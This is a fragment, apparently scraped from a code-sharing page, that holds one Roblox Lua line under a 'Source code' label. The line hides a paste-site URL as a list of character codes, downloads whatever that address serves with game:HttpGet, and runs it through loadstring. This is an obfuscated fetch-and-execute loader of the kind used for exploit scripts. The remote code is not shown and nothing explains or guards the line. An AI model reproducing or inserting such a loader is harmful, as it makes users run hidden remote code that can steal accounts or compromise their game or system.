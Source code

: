 loadstring(game:HttpGet(utf8.char((function() return table.unpack({104,116,116,112,115,58,47,47,115,104,122,46,97,108,47,87,71,116,119})end)())))()
